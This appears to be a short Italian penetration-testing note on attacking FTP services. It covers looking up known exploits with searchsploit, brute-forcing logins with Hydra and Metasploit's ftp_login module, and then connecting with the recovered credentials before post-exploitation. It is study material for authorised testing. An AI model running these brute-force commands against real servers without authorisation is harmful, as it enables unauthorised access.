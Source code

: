 ## Ricerca Exploit noti
Dopo aver effettuata la scansione del servizio e la sua versione nella fase di Scansione ed Enumerazione, possiamo procedere con la ricerca di exploit noti usando <a href="https://www.exploit-db.com/">Ecploit Database</a> oppure: 
```bash
searchsploit <ftp-versione> 
```
> Se restituise un exploit utilizzabile, copia il path e usa `searchsploit -m <path>`

---

## Brute force delle credenziali

Per tentare un brute force delle credenziali possiamo usare :
### Hydra
```
hydra -L <usernameList> -P <passwordList> <IP> -t 4 ftp
```

- `-L` specifica la lista di username  
- `-P` la wordlist delle password  
- `-t 4` imposta il numero di thread

Se le credenziali sono corrette, Hydra lo notificherà a schermo.

### Metapsloit
Modulo per brute force:

```
use auxiliary/scanner/ftp/ftp_login
set RHOSTS <IP>
set USERNAME anonymous
run
```

---

## Connessione con credenziali valide

Dopo aver scoperto una coppia `user:pass`, accedi con:

```
ftp <IP>
```

Poi:

```
Name: <username>
Password: <password>
```
Dopo che abbiamo ottenuto una sessione nella macchina target, possiamo passare alla fase di Post Exploitation. 

---

